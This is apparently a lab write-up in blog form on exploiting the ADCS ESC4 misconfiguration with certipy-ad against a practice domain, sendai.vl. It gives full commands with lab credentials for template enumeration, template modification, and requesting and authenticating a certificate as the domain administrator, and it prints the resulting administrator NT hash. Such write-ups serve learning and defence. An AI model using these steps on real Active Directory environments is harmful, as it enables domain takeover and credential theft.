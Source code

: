 ```yaml
---
title: ADCS - ESC4
date: 2025-05-15 05:02:00 +/-TTTT
categories: [ADCS]
tags: [ESC4]     # TAG names should always be lowercase
image : /assets/images/ESC4.gif
---
```

## Entry
ESC4 (Enterprise Security Configuration 4) is a notable security vulnerability category within Active Directory environments that relates to improper delegation and misconfiguration of administrative privileges. This flaw arises when certain high-privilege accounts or groups are granted excessive or unintended access rights—often via Access Control Lists (ACLs)—which can be exploited by attackers to escalate privileges, move laterally, or compromise domain security.

## Enumerate with Cobalt Strike
Additionally, the user has permissions such as Owner, WriteOwnerPrincipals, WriteDaclPrincipals, and WritePropertyPrincipals for the template. These permissions allow users or groups to modify and enroll for certificates based on that template. When creating a certificate template in ADCS, we can specify who has the right to enroll for certificates using that template.
![alt text](../assets/images/esc41.png)

## Enumerate with Linux Abuse

We can also find with **certipy-ad**

Command to execute:
```sh
certipy-ad find -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.10.83.239 -vulnerable -enabled 
```
and it will give
```sh
{
"Certificate Authorities": {
    "0": {
    "CA Name": "sendai-DC-CA",
"Certificate Templates": {
    "0": {
    "Template Name": "SendaiComputer",
    "Display Name": "SendaiComputer",
    "Certificate Authorities": [
        "sendai-DC-CA"
    },
    "[!] Vulnerabilities": {
        "ESC4": "'SENDAI.VL\\\\ca-operators' has dangerous permissions"

```
But for understanding more clearly i recommend to use gpo.json to upload Bloodhound and analyze with our user.

Command to execute:
```sh
certipy-ad find -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.10.83.239 -vulnerable -enabled -old-bloodhound
```
upload `20250518234359_gpos.json` to BloodHound.

![alt text](../assets/images/esc42.png)

## Attack

Before start attack we have to need some datas which we dump before CS and certipy-ad

| Prerequisite                   | Description / Value                                       |
| ------------------------------ | --------------------------------------------------------- |
| **Username**                   | clifford.davey                                            |
| **Domain**                     | sendai.vl                                                 |
| **Password**                   | RFmoB2WplgE\_3p                                           |
| **Certificate Template**       | SendaiComputer                                            |
| **Certificate Authority (CA)** | sendai-DC-CA                                              |
| **User Principal Name (UPN)**  | administrator@sendai.vl |

Commands to execute:
```sh
certipy-ad template -username <useranme>@s<domain> -password <password> -template <templatename> -save-old

certipy-ad req -username <useranme>@s<domain> -password <password> -ca <ca-name> -target <domain> -template <templatename> -upn administrator@<domain>
```

### ➜ Explanation of the Command

Command to execute:
```sh
certipy-ad template -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old
```
![alt text](../assets/images/esc43.png)


| **Command Part**                     | **Description**                                                                                 |
| ------------------------------------ | ----------------------------------------------------------------------------------------------- |
| `certipy-ad template`                | Certipy subcommand to interact with or modify AD certificate templates.                         |
| `-username clifford.davey@sendai.vl` | Specifies the username to authenticate with Active Directory.                                   |
| `-password RFmoB2WplgE_3p`           | Password for the given user account.                                                            |
| `-template SendaiComputer`           | The certificate template name you want to modify or query.                                      |
| `-save-old`                          | Saves the current configuration of the specified template to a JSON file before making changes. |

**Why use -save-old?**
>The -save-old option is a safety measure. Before you update or modify a certificate template, it saves the existing configuration so you have a backup of the original state.
{: .prompt-tip }

Now we can request administrator ticket.

Command to execute:
```sh
certipy-ad req -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -ca sendai-DC-CA -target sendai.vl -template SendaiComputer -upn administrator@sendai.vl
```
![alt text](../assets/images/esc44.png)

| **Command Part**                     | **Description**                                                                |
| ------------------------------------ | ------------------------------------------------------------------------------ |
| `certipy-ad req`                     | Certipy subcommand to request a certificate from a Certificate Authority (CA). |
| `-username clifford.davey@sendai.vl` | Username for authentication to Active Directory.                               |
| `-password RFmoB2WplgE_3p`           | Password for the specified user.                                               |
| `-ca sendai-DC-CA`                   | Specifies the CA (Certificate Authority) to request the certificate from.      |
| `-target sendai.vl`                  | The target domain or hostname for the certificate request.                     |
| `-template SendaiComputer`           | Certificate template to use for the request.                                   |
| `-upn administrator@sendai.vl`       | Specifies the User Principal Name (UPN) for the certificate’s subject.         |

> If you get a timeout error, just try running the command again.
{: .prompt-tip}

Now lets auth it.

```sh
➜  sendai certipy-ad auth -pfx administrator.pfx                                                               
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
```

Nice!!
